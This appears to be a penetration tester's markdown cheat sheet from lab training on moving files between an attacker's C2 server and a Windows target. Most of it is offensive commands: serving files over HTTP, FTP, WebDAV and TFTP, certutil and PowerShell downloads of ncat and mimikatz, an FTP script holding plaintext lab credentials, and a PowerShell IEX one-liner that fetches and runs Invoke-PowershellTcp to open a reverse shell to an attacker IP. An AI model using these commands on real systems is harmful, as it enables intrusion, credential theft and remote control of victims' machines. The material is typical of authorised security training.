 

# C2

##### HTTP
```python
python -m SimpleHTTPServer $port
```

```python
python3 -m http.server $port
```

##### FTP
```
sudo systemctl start pure-ftpd
```
(Setup FTP Server on Linux: [isetup-ftp.sh](file:////home/kali/Documents/linuxAdministration/))

##### WebDAV
```bash
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/ATP23/webdav/
```

##### TFTP (Useful on XP)
```bash
sudo atftpd --daemon --port 69 /tftp` )
```


# On the target

## Bidirectional

##### HTTP
```powershell
certutil.exe -urlcache -split -f "http://192.168.45.182:8000/ncat.exe"
```

##### SSH
```bash
scp $file $user@$hip:"C:\\Users\\$user\\Downloads"
```

```bash
scp $user@$hip:'C:\\Users\\$user\\Downloads\\data.zip' .
```

##### FTP
```powershell
echo "open 192.168.45.182 21" > ftp.txt; echo "USER offsec" >> ftp.txt; echo "alexrudolf" >> ftp.txt; echo "bin" >> ftp.txt; echo "GET ncat.exe" >> ftp.txt; echo "bye" >> ftp.txt; ftp -v -n -s:ftp.txt
```
(dir on linux: `/ftphome/`)
> Error `I won't open a connection to xx.xx.xx.xx (only to xx.xx.xx.xx)` means that passive mode is required. The windows ftp client does not support passive mode

##### TFTP (Useful on XP)
```powershell
tftp -i $ip put <filename>
```


## Download to Windows

```powershell
iwr -uri http://$hip/adduser.exe -Outfile adduser.exe
```

Download File (HTTP)
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://$hip/$filename$','C:\Users\offsec\Desktop\wget.exe')"
```

```powershell
Invoke-WebRequest -Uri 'http://192.168.45.177:80/mimikatz32.exe' -OutFile 'C:\Users\marcus\Desktop\mimi32.exe'
```

Download and Execute String  (HTTP)
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$ip:$port/Invoke-PowershellTcp.ps1'); Invoke-PowershellTcp -Reverse -IPAddress $ip -Port $port"
```



## Windows -> Linux


